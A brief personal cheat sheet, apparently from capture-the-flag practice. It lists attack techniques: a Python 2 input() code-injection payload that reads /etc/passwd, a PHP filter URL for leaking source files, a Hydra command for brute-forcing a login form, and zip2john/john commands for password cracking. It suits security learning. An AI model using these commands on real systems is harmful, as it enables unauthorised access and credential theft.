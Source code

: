 ## Learnings:
input() in python2 is not safe, equivalent to eval() 
exploiting input() command: 

__import__("os").system('cat /etc/passwd')


##  PHP:
fetching source files : 
index.php?file=php://filter/convert.base64-encode/resource=config 

## Hydra:
hydra -s 45885 -l admin www.bruteforce.me -P rockyou.txt http-form-post "/:password=^PASS^:F=Invalid"
"/login.php:user=^USER^&pass=^PASS^:S=successful"  from docs.
follow the format ' path : inputs : F=failure condition"   , -s specifies port , even if u send pass only, specify user for it to run smoothly

## Zip2John
zip2john zipfile.zip > passwordhash
john --format=pkzip passwordhash  ( depends on the format of archive/hash, look at previous output )
